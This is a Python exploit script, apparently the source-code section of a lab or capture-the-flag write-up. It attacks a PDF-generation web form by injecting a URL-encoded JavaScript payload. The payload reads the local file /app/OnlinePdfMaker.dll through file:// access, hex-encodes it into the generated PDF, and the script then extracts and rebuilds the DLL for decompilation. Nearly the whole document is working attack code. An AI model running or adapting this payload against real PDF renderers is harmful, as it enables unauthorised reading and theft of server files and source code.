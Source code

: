 ``` {.wp-block-syntaxhighlighter-code .code}
#!/usr/bin/env python3

from tika import parser # pip install tika
from binascii import unhexlify
from requests import post
from shutil import copyfileobj
import logging

#LOGGING
logging.basicConfig(level=logging.INFO)

#CONSTANTS
URL = "http://localhost"
PROXY = {'http':'http://localhost:8080','https':'http://localhost:8080'}
HEADERS = {
        "User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0",
        "Content-Type":"application/x-www-form-urlencoded",
        "Content-Length":"22"
}

#STEP 1: Request the PDFMaker
payload = "txtValue=%3Cscript%3E++function+buf2hex%28buffer%29+%7B+++++++++var+byteArray+%3D+new+Uint8Array%28buffer%29%3B+++++++++var+hexParts+%3D+%5B%5D%3B+++++++++for%28var+i+%3D+0%3B+i+%3C+byteArray.byteLength%3B+i%2B%2B%29+%7B+++++++++++++++++var+hex+%3D+byteArray%5Bi%5D.toString%2816%29%3B+++++++++++++++++var+paddedHex+%3D+%28%2700%27+%2B+hex%29.slice%28-2%29%3B+++++++++++++++++hexParts.push%28paddedHex%29%3B+++++++++%7D+++++++++return+hexParts.join%28%27%27%29%3B+%7D%3B++var+oReq+%3D+new+XMLHttpRequest%28%29%3B+oReq.onload+%3D+function%28oEvent%29+%7B+++++++++var+buffer+%3D+oReq.response%3B+++++++++document.write%28buf2hex%28buffer%29%29%3B+%7D%3B++oReq.open%28%22GET%22%2C+%22file%3A%2F%2F%2Fapp%2FOnlinePdfMaker.dll%22%2C+true%29%3B+oReq.responseType+%3D+%22arraybuffer%22%3B+oReq.send%28%29%3B++%3C%2Fscript%3E&keyValue="

req = post(URL,data=payload,headers=HEADERS,proxies=PROXY,stream=True)

with open("Test.pdf","wb") as out:
        req.raw.decode_content = True
        copyfileobj(req.raw,out)
        logging.info("File Test.pdf downloaded")

#STEP 2: Get the data from the PDF
raw = parser.from_file('Test.pdf')
content = raw['content']
content_bis = ""
#Remove the junk
data_hexa =  ''.join(raw['content'].strip('\n').split('\n')[0])
logging.info("Parsing of data from the Test.pdf file done")

#STEP 3: Write the data into the .dll file
with open("OnlinePdfMaker.dll", 'wb') as fichier:
    fichier.write(unhexlify(data_hexa))
    logging.info("Data written into OnlinePdfMaker.dll")

logging.info("Open the DLL file into DnSpy")
```
